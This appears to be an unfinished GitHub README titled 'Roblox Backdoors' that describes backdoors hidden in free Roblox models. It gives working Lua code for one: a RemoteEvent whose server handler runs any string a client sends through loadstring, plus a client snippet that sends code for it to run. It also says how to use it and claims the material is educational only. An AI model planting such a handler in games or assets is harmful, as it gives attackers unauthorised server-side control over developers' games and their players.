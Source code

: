 # Roblox Backdoors

> **NOTE FOR GITHUB:** This README is **SOLELY** for Educational and Entertainment Purposes only. Whatever people do with this is **NOT** my responsibility.
>
> This Repository is under an **MIT LICENSE**

## What is a Backdoor?
A **backdoor** is a malicious script, often hidden inside free models or assets, that gives an attacker unauthorized, server‑side control of your game. It can allow them to run code, access sensitive data, or interfere with players without your permission.

## Example

```lua
local server = Instance.new("RemoteEvent", game.ReplicatedStorage)
server.OnServerEvent:Connect(function(player, SS)
    loadstring(SS)()
end)
```

To use this, you **must** call `:FireServer` on the `RemoteEvent` you created above and pass your code as an argument, as shown below.

```lua
local server = game:GetService("ReplicatedStorage"):WaitForChild("RemoteEvent")

server:FireServer([[
local hint = Instance.new("Hint")
hint.Text = "This is a hint"
hint.Parent = game.Workspace
]])
```

## finish soon
